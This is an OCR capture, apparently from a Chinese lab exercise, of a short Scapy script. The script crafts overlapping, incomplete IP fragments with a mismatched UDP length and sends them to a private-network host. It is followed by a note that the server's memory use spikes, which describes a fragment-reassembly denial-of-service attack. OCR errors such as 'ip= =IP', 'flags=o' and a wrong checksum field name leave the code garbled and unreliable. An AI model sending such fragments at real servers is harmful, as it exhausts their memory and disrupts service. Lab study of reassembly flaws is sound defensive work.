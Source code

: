 ``` python
from scapy.all import *
ip= =IP(src="10.19.108.164" ,dst="10.19.109.155")
ip.id=1000
ip.frag=0
ip.flags=1
udp=UDP(sport=7070, dport =9090)
udp.len=96
payload='A' * 32

pkt=ip/udp/payload

pkt[UDP].checksum=0
send(pkt,verbose=0)

ip.frag=8
ip.flags=o
pkt=ip/payload
send(pkt,verbose=0)
```

服务器的内存占用急剧升高。
